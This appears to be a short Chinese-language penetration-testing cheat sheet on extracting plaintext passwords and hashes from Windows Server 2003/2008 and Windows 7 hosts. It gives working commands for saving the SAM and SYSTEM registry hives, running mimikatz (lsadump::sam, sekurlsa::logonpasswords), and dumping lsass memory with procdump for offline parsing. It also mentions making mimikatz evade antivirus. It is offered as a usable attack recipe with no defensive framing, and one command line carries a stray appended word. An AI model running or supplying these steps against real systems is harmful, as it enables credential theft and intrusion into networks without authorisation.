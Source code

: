 

Windows Server 2003、Windows Server 2008、Windows 7 获取到明文密码

首先我们需要把当前系统注册表 SAM、SYSTEM 获取到
reg save HKLM\SYSTEM Sys.hiv

reg save HKLM\SAM Sam.hiv

mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exitsaulGoodman


然后把这两个文件拖回本地然后用 mimikatz 抓取密码hash


mimikatz "lsadump::sam /sam:Sam.hiv /system:Sys.hiv" exit

把mimikatz拖到目标主机获取密码（根据实际需要，mimikatz需要免杀）

mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"

通过 Procdump 获取 lsass 抓内存中的明文密码

通过procdump下载lsass信息

procdump.exe -accepteula -ma lsass.exe lsass.dmp

回传本地获取密码
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
